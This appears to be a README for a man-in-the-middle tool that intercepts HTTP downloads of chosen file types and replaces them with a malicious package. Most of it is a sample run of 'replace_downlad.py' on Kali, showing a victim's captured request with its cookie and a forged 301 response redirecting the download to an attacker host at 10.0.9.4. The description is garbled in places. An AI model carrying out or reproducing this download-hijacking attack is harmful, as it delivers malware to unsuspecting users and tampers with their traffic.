


## MitM attack manage packages

    At this moment, the module only work under https layer, not for encrypted connections https.
    by default, the prcessor looking for raw packages for request and responses with a choosen extensions.
    ie: ".zip, .pdf, .txt, .exe"
    On response for request we have an oportuninty to replace the content with a malicious package.
     
# Run attack 

   Example over extension files ".png" images:
   
   
        root@kali:~/PycharmProjects/mitm_process.py# python replace_downlad.py 
        
        
        
        
        
        
        
        
        [+] donwload png file Request
        ###[ IP ]### 
          version   = 4
          ihl       = 5
          tos       = 0x0
          len       = 555
          id        = 60647
          flags     = DF
          frag      = 0
          ttl       = 127
          proto     = tcp
          chksum    = 0x3587
          src       = 10.0.9.5
          dst       = 23.101.172.244
          \options   \
        ###[ TCP ]### 
             sport     = 50369
             dport     = http
             seq       = 596615170
             ack       = 1840367
             dataofs   = 5
             reserved  = 0
             flags     = PA
             window    = 65535
             chksum    = 0xcf6d
             urgptr    = 0
             options   = []
        ###[ Raw ]### 
                load      = 'GET /images/illustration-computer-devices.png HTTP/1.1\r\nReferer: http://www.vorlonjs.io/plugins/\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36 Edge/18.17763\r\nCache-Control: max-age=0\r\nAccept: image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5\r\nAccept-Language: en-US\r\nAccept-Encoding: gzip, deflate\r\nHost: www.vorlonjs.io\r\nConnection: Keep-Alive\r\nCookie: ARRAffinity=8476eb23cae9d2dd7640d0930ea40ce5ee17c68542fea71b9732b7269b64e40c\r\n\r\n'
        
        None
        [+] response downlad file png type
        [+] replacing file .....
        ###[ IP ]### 
          version   = 4
          ihl       = 5
          tos       = 0x0
          len       = None
          id        = 47458
          flags     = 
          frag      = 0
          ttl       = 254
          proto     = tcp
          chksum    = None
          src       = 23.101.172.244
          dst       = 10.0.9.5
          \options   \
        ###[ TCP ]### 
             sport     = http
             dport     = 50369
             seq       = 1840367
             ack       = 596615685
             dataofs   = 5
             reserved  = 0
             flags     = PA
             window    = 32253
             chksum    = None
             urgptr    = 0
             options   = []
        ###[ Raw ]### 
                load      = 'HTTP/1.1 301 Moved Permanently\nLocation: http://10.0.9.4/image.jpg\n\n'
        
        None
        [+] packet succefully replaced ......

 
 
 
 
 
 
 
 